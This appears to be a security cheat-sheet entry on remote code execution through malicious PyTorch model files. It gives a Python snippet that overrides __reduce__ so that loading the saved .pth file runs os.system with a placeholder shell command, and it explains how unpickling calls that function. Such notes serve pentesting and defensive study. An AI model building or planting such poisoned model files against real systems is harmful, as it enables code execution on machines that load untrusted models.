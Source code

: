 # Data models (pytorch, pickle)

## Overview
If a model is parsed through a pytorch script, then one might be able to create a malicious model which can lead to RCE.

### Requirements
- The vulnerable script loads the model provided by the end-user

## Exploitation
```py
import torch
import torch.nn as nn
import os

class YourModel(nn.Module):
    def __init__(self):
        super(YourModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    def forward(self, file):
        return self.dense(file)
   
    def __reduce__(self):
        cmd = "SHELL CODE HERE"
        return os.system, (cmd,)


model = YourModel()
torch.save(model, "file.pth")
```
By overwriting the `__reduce__` method, we can inject shell code and it will be executed whenever the vulnerable
script will try to load the module.

### Longer explanation
The `__reduce__` method returns either a string or a tuple which tells the script how to reconstruct the object
when unpickling.        
Usually, the tuple consists of:
- Callable (name of the class, function). In this case it's the `os.system` function.
- Arguments to be passed to the callable. Shell code in this case.

When the model is being parsed, the parsers will execute the callable with the arguments provided.